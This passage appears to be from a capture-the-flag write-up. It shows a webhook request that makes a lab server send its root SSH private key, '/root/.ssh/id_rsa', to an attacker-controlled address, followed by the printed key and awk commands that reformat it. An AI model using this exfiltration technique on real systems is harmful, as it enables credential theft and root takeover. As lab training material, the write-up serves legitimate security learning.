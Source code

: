 ```bash
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```

Format the output to file, and grab `root.txt`.
```bash
➜  health cat unformated-id_rsa 
-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n

➜  health awk '{gsub(/\\n/,"\n")}1' unformated-id_rsa >> still-bad-format
➜  health awk '{gsub(/\\/,"")}1' still-bad-format > root-id_rsa
➜  health cat root-id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
C2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl
hnqFXpOWB771WnW9yH7/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x/LUyan++D+8
efiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2
1bLlZQECgYEA9iT13rdKQ/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj
nVhtw6NRFZ1Gfu21kPTCUTK34iX/p/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3
sqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou
fEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q
0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ
```